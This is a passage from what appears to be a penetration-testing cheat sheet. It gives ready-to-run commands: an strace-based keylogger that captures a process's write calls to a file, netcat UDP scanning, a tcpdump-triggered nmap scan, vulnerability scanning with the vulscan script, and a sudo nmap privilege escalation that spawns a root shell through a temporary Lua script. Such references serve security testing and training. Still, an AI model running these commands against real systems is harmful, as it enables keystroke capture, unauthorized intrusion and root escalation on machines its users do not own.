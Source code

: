 ```
3. –e write: only capture write calls
4. –q : be quiet
5. –f : follow any fork (created) process
6. –o keylogger.txt: output the results to a file named keylogger.txt

```
root@securitynik:~# strace -p 3103 -t -e write -q -f -o keylogger.txt &
[1] 3432
```

## Netcat UDP Scanner:

```
nc-v -u -z <IP> <Port>
```

## Recon for Specific Device Before Enumerating:

```
sudo tcpdump 'ether host XX:XX:XX:XX:XX:XX' -i en0 -vnt > CheckScan.txt |  tee CheckScan.txt | grep --line-buffered pattern | ( while read -r line; do sudo nmap -sV -n -T4 -O2 -oX NMAPScan.xml; rm CheckScan.txt; done; ) &
```

## Turn Nmap into a Vulnerability Scanner:

Download: https://github.com/scipag/vulscan

Usage:

```
nmap -sV --script=vulscan/vulscan.nse www.rosesecurity.com
```

## Nmap Privilege Escalation:

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

## Nmap Using Multiple Scripts on One Target:

Usage:

```
nmap --script "http-*" <IP>
nmap --script "sql-*" <IP>
nmap --script "ftp-*" <IP>
```
